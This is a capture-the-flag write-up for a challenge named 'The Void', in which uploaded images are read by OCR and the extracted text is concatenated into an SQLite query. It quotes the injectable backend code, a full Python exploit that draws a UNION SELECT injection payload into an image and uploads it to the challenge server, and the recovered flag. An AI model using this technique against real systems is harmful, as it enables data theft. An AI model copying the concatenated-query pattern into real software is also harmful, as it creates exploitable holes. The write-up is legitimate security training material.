

# The Void

The chall was hosting a web application in which it was possible to upload images. In the backend, an ocr application analysed the uploaded images and sent an sql query based on the finding. 

```python
#{Redacted}
def ocr_db(image_path):
    try:
        text = pytesseract.image_to_string(Image.open(image_path), config='--psm 4')
        cleaned = text.strip().replace("\n", "").replace("\"", "'").replace("‘", "'").replace("’", "'").lower()
        # Cleaning up weird OCR things
        con = sqlite3.connect('file:void.db?mode=ro', uri=True)
        cur = con.cursor()
        res = cur.execute("SELECT image, count FROM snacks WHERE name = '" + cleaned + "'")
        return(str(res.fetchall()))
    except sqlite3.Error as e:
        # Print the error message
        return(f"SQLite error occurred: {e}")
    except Exception as e:
        # Handle any other general errors
        return(f"An unexpected error occurred: {e}")
#{REDACTED}
```

So basically, what we needed to do was to write an sql injection inside an image, send the file and analyse the output sent by the application. An example of what the image could look like:



The tricky part was finding an sqli that didn't trigger an sql error as the ocr program didn't parse text very well. I lost some time trying to find all the tables of the database but that wasn't needed as `snacks` were the only one used. The same applied for the column names XD, there was no need trying to find others. Finally, just retrieving the whole content of the `name` column was enough to retrieve the flag.

Here's the script that helped us solve this:

```python
from PIL import Image, ImageDraw, ImageFont
import io
import requests
import ast
from datetime import datetime
from bs4 import BeautifulSoup
import pytesseract


def create_image_with_text(text, font_size=16, image_size=(800, 600), bg_color=(210, 180, 140), text_color=(0, 0, 0)):
    """
    Creates an image with the given text on a cardboard-like background and saves it locally.
    
    Args:
        text (str): The SQL injection payload to write on the image.
        font_size (int): Size of the font.
        image_size (tuple): Width and height of the image in pixels.
        bg_color (tuple): RGB color for the background (tan/cardboard-like).
        text_color (tuple): RGB color for the text.
    
    Returns:
        BytesIO: A buffer containing the image in JPEG format.
    """
    # Create a new image with a tan background
    img = Image.new('RGB', image_size, color=bg_color)
    draw = ImageDraw.Draw(img)
    
    # Load a monospaced font for better OCR recognition
    try:
        font = ImageFont.truetype("DejaVuSansMono.ttf", font_size)
    except OSError:
        try:
            font = ImageFont.truetype("cour.ttf", font_size)  # Alternative monospaced font
        except OSError:
            print("Monospaced font not found, using default font")
            font = ImageFont.load_default()
    
    # Center the text on the image
    text_bbox = font.getbbox(text)
    text_width = text_bbox[2] - text_bbox[0]
    text_height = text_bbox[3] - text_bbox[1]
    position = ((image_size[0] - text_width) // 2, (image_size[1] - text_height) // 2)
    
    # Draw the text onto the image
    draw.text(position, text, fill=text_color, font=font)
    
    #For debugging
    timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
    filename = f"injection_{timestamp}.jpg"
    img.save(filename, format='JPEG')
    print(f"Image saved as: {filename}")
    text = pytesseract.image_to_string(Image.open(filename), config='--psm 4')
    cleaned = text.strip().replace("\n", "").replace("\"", "'").replace("‘", "'").replace("’", "'").lower()
    print(cleaned)
    
    # Save the image to a bytes buffer for upload
    buf = io.BytesIO()
    img.save(buf, format='JPEG')
    buf.seek(0)
    return buf

def upload_image_and_get_response(payload, url):
    """
    Uploads an image with the given payload to the server and returns the response.
    
    Args:
        payload (str): The SQL injection payload to embed in the image.
        url (str): The server URL to upload the image to.
    
    Returns:
        dict: The JSON response from the server, or None if the upload fails.
    """
    image_buf = create_image_with_text(payload)
    files = {'file': ('injection.jpg', image_buf, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
        if response.status_code == 200:
            return response
        else:
            print(f"Upload failed with status {response.status_code}")
            return None
    except Exception as e:
        print(f"An error occurred: {e}")
        return None

def main():
    url = 'https://void-974780027560.us-east5.run.app/upload'
    
    table_payload = "t' union SELECT GROUP_CONCAT(name),1 FROM snacks /*"
    print(table_payload.strip().replace("\n", "").replace("\"", "'").replace("‘", "'").replace("’", "'").lower()) #For debugging
    response = upload_image_and_get_response(table_payload, url)

    if response.status_code == 200:
        print(response.json().get("data"))
    else:
        print(f"Failed to retrieve the page. Status code: {response.status_code}")
    
if __name__ == "__main__":
    main()
```

`[('wctf{the_v01d_hungers_4_m0r3_paper_plates_8626946984},dominos,littlecaesars,pizzahut', 1)]`
